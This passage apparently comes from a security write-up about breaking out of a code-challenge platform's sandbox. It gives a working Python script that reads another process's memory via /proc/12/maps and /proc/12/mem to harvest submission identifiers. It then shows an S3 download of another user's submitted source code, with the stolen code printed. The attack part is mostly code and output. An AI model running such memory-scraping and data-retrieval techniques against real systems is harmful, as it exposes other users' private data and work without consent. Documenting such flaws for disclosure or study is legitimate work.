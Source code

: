 ## Grabbing other people's submissions
Back to scrapping memory of running processes, but this time we're looking for 'submission_id':

```python
  try:
    maps_file = open("/proc/12/maps", 'r')
    mem_file = open("/proc/12/mem", 'rb', 0)
    #output_file = open("/tmp/self.dump", 'wb')
    for line in maps_file.readlines():  # for each mapped region
      m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
      if m.group(3) == 'r':  # if this is a readable region
          start = int(m.group(1), 16)
          end = int(m.group(2), 16)
          mem_file.seek(start)  # seek to region start
          chunk = mem_file.read(end - start)  # read region contents
          offsets = [m.start() for m in re.finditer(b'submission_id', chunk )]
          for offset in offsets:
              #print(f'checking offset: {offset}')
              leak = chunk[offset:offset+800]
              if b':' in leak:
                  print(leak)
  except Exception as e:
    pass
```
![Submissions](./images/3-submissions.png)
![Submissions close up](./images/4-submissions.png)

Ahh, multiple submission codes... and some that have compiled code... which I'm definitely not using!

So we'll grab that, locally, no need to do this in the lambda. Note the submission id is different because I am writing the notes afterwards. Either way, this is NOT my code:

```text
>>> s3.download_file('terraform-20210608051810146400000001', '5625045057516394/source.txt', '/tmp/mine')
>>>
[1]+  Stopped                 python3
root@ae68cd6cb330:/tmp/enumerate-iam# cat /tmp/mine
using System;

// Write any using statements here
using System.Linq;
using System.Collections.Generic;

class Solution {

 public int getMaximumEatenDishCount(int N, int[] D, int K) {
   // Write your code here
   Queue<int> q = new Queue<int>();
   int result = 0;
```